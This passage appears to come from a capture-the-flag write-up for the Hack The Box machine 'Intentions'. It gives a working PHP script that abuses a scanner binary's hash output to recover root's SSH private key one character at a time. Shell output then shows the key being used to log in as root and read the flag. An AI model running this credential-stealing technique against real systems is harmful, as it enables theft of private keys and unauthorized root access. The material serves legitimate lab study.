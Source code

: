 So, let's break down how we approached this challenge:
- Begin a loop that continues until the constructed key reaches a length of 3000 characters
- Increase the expected length of the key by 1.
- Use the scanner tool to compute an MD5 hash for the first `i` characters of roots private key
- Parse the output from the scanner tool to retrieve the computed hash
- Brute force the next character of the key by trying all possible ASCII characters (0-127) appended to the current key string and calculating the MD5 hash of the resulting string. When the hash of a tried string matches the hash from the scanner tool, the appended character is considered the next character of the key.
- Add the discovered character to the key string and print it.

Fast coding be like:
```php
<?php

$id_rsa = "-----BEGIN OPENSSH PRIVATE KEY-----";
$i = strlen($id_rsa);
echo $id_rsa;

while (true) {
	$i++;
	$result = exec("/opt/scanner/scanner -l ${i} -s 123456 -c /root/.ssh/id_rsa -p");
	$arr = explode(" ", $result);
	$hash = end($arr);
	$chr = brute($id_rsa, $hash);
	$id_rsa.= $chr;
	
	echo $chr;
	
	if ($i == 3000) break;
}

function brute($id_rsa, $hash) {
	for ($ascii = 0; $ascii <= 127; $ascii++) {
		$c = chr($ascii);
		if (md5($id_rsa . $c) === $hash) return $c;
	}
}
?>
```

We ran the script and got roots id_rsa:
```bash
greg@intentions:~/.local/share$ php privesc.php
```

Output:

![](<../../../assets/htb/get-root-id-rsa.gif>)

Login as root and read final flag:
```bash
greg@intentions:~/.local/share$ php privesc.php > id_rsa
greg@intentions:~/.local/share$ chmod 600 id_rsa
greg@intentions:~/.local/share$ ssh -i id_rsa root@localhost
The authenticity of host 'localhost (127.0.0.1)' can't be established.
ED25519 key fingerprint is SHA256:oM16qkT2127RdM/9i3UFwVNtt09fF4E6c4zhrHtGjw0.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'localhost' (ED25519) to the list of known hosts.
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-76-generic x86_64)

root@intentions:~# cat root.txt
c0bb************************72c3
```

